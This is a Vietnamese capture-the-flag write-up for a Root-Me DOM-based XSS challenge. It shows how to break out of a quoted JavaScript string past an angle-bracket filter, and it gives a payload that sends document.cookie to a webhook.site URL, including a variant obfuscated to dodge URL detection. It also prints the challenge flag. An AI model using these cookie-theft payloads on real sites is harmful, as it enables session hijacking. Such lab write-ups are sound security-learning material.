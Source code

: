 ```diff
@@ Web - Server Challenge @@
```

## XSS DOM Based - Filters Bypass [50 Points]

- Ở challenge này, tác giả cho ta một trang để nhập số

  ![15](img/15.jpg)

- Kiểm tra source thì thấy số ta nhập được render vào vị trí này và chẳng làm gì cả. Cho dù t có thắng trò này thì cũng không được flag

  ![15-1](img/15-1.jpg)

- Mục tiêu của ta là tìm cách truyền vào tham số number một chuỗi payload XSS để có thể khai thác, sau đó gửi link cho admin là có được flag

- Đầu tiên thử với payload đơn giản là 

  ```js
  <script>alert(1)</script>
  ```

  Thì thấy các kí tự ```<``` và ```>``` đã bị escape. 

  ![15-2](img/15-2.jpg)

- Tìm kiếm thêm ta thấy dấu ```/``` vẫn được accept

- Nguyên đoạn code dòng đó sẽ là

  ```js
  var number = ' Chuỗi mà ta nhập vào nằm giữa 2 dấu single quote ' ;
  ```

  => Em thực hiện bypass như sau:

  ```js
  var number = '' == XSS-here // ' ;
  ```

  Tức chuỗi của ta nhập vào sẽ có dạng ```' == XSS //```

  Ví dụ là ```' == alert(1) //```

  ![15-3](img/15-3.jpg)

- Thay đổi payload để lấy cookie, payload trở thành

  ```' == (eval)(document.location='https://webhook.site/03c97039-b00e-4820-91c6-6424602b0e7f?c='.concat(document.cookie))//```

- Và kết quả là ...

  ![15-5](img/15-5.jpg)

- Ta cần phải sửa lại chút để tránh bị phát hiện đang nhập vào một url

  ```' == (eval)(document.location='https'.concat('://webhook.site/03c97039-b00e-4820-91c6-6424602b0e7f?c='.concat(document.cookie)))//```

- Kết quả thu được

  ![15-4](img/15-4.jpg)

  ```diff
  --FLag là: rootme{FilTERS_ByPass_DOm_BASEd_XSS}
  ```

  ​
